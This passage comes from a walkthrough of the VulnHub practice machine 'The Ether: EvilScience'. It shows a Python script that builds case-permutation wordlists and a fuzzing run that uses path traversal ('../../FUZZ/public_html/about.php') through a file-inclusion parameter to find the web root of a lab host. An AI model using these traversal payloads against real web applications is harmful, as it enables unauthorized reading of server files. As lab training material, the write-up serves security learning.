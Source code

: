 
Moving up the next level got me stuck for hours. Not knowing how to move forward, I chance upon **theether.com** at the footer.

![theether.com](/assets/images/posts/the-ether-evilscience-walkthrough/evilscience-7.png)

Using that as base, I created a custom wordlist with `python`.

<div class="filename"><span>crunch.py</span></div>
```python
#!/usr/bin/env python

import itertools
import sys

s = sys.argv[1]

for word in map(''.join, itertools.product(*zip(s.lower(), s.upper()))):
    print word

# ./crunch.py theether.com > custom.txt
```

Using the custom wordlist with `fuzz.sh`, I'm able to map out the next level.

```
# ./fuzz.sh "../../FUZZ/public_html/about.php" "About The Ether" custom.txt
...
[+] Trying ../../theeTHER.CoM/public_html/about.php
[+] Trying ../../theeTHER.COm/public_html/about.php
[+] Trying ../../theeTHER.COM/public_html/about.php
[+] Trying ../../theEther.com/public_html/about.php

[!] Found: http://192.168.198.130/?file=../../theEther.com/public_html/about.php
```

At long last. the **DocumentRoot** is at `/var/www/html/theEther.com/public_html`.

![docroot](/assets/images/posts/the-ether-evilscience-walkthrough/evilscience-8.png)


[1]: https://www.vulnhub.com/entry/the-ether-evilscience-v101,212/
[2]: https://securityshards.wordpress.com/
[3]: https://www.vulnhub.com/
[4]: https://httpd.apache.org/docs/2.4/mod/core.html#documentroot
[5]: https://github.com/danielmiessler/SecLists